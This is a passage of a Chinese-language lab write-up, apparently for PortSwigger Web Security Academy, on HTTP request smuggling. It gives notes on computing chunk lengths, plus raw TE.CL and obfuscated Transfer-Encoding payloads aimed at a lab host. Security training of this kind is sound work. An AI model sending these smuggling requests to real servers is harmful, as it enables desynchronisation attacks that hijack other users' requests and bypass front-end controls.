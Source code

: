 这里的那个`15`我算了好久，计算规则（一次一次试出来的）：

* 结果是16进制。
* `15`之后的那个回车不用算，从下一行开始算。
* 每个字符都算`1`（空格也要算进去）。
* 回车算两个字符（`\r\n`）。
* `x`后面的回车不用算，`x`主要是拿来占位，为了好算，也好看到底结束的地方在哪里。（不用x也行，相应结果减1。）

计算`Content-Length`:

* 结果为10进制，全部计算

* 计算方法和上面一样

然后我一开始没有那个`x`，我是直接：

```
10
GPOST / HTTP/1.1
0


```

虽然和上面我的payload一样，都是返回的`"Missing parameter 'csrf'"`，但是不给过，有点离谱。

### 3. HTTP request smuggling, obfuscating the TE header

```http
POST /post/comment HTTP/1.1
Host: aca41f7e1f75e03b80924e95007300b3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: x

0

GPOST / HTTP/1.1

```

第二次发送这个，他返回了`"Unrecognized method 0POST"`

`0POST`？为什么会是这个。

仔细思考了一下，应该是到前端的时候，默认用前面那个，就是`Transfer-Encoding: chunked`，于是这个时候到`0`就截止了，`GPOST / HTTP/1.1`被丢弃。

后端默认用的是后面那个，`Transfer-Encoding: x`，认不出来是啥，也就是不会再去检测后面的内容，`0`也就被放到了下面的一个报文，此时`GPOST / HTTP/1.1`已被丢弃，所以直接后面接的就是下一个报文的`POST`，组合起来就是`0POST`。

根据这个思路，修改报文，但是经过几次尝试之后，发现那个数字都会跟着`GPOST`一起，想办法让后端将数字读走，这里用`Content-length`，前端默认`Transfer-Encoding`，后端在`Transfer-Encoding`出错的情况下，会使用`Content-length`。

```http
POST /post/comment HTTP/1.1
Host: aca41f7e1f75e03b80924e95007300b3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: x
Content-Length: 4

14
GPOST / HTTP/1.1


0

```
